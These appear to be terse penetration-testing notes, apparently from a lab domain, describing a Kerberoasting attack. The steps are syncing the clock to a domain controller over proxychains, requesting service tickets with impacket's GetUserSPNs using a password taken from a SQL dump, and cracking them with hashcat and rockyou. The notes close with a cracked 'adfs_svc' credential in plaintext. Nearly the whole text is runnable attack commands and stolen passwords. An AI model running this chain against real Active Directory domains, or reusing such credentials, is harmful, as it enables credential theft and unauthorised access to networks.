 after fixing date we need to use mark's password from sqldump to enum

changing time to GMT and setting date to nullify clock skew

date -d @`proxychains ldapsearch -LLL -x -H ldap://192.168.20.10 -b '' -s base '(objectclass=*)' | grep -i currentTime | awk -F\: {'print $2'} | awk -F\. {'print $1'} | sed 's/^ *//g'`| awk '{$NF=""}1'
date --set="date in epoch for linux"

proxychains python /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -target-domain 0x0security.local  -dc-ip 192.168.20.10 0x0security.local/mark:'$Ul3S@t0x0S3c' -outputfile hashes.kerberoast
hashcat -m 13100 --force hashes.kerberoast -a 0 /usr/share/wordlists/rockyou.txt -r /opt/nsa-rules/_NSAKEY.v2.dive.rule
adfs_svc:S3cur!ty

adfs server